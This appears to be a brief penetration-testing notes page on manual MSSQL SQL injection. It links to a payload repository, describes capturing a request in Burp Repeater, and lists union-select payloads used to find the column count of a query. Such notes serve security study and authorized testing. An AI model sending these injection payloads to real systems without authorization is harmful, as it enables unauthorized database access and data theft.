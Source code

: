 ```yaml
---
description: 300-348
---
```


# SQLi

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}

## Manual MSSQL Injection

Do you see a seemingly vulnerable input field that you believe queries the database?

<mark style="color:yellow;">Make a request to it and capture it in burp // send to repeater tab</mark>

```
q=500' union select 1 -- 
q=500' union select 1,2 -- 
q=500' union select 1,2,3 -- 
q=500' union select 1,2,3,4 -- 
q=500' union select 1,2,3,4,5 -- 
q=500' union select 1,2,3,4,5,6,7 -- 
q=500' union select 1,2,3,4,5,6,7,8 -- 
```

* Be sure to check the response tab after you send every request as you do not know when it will return data!


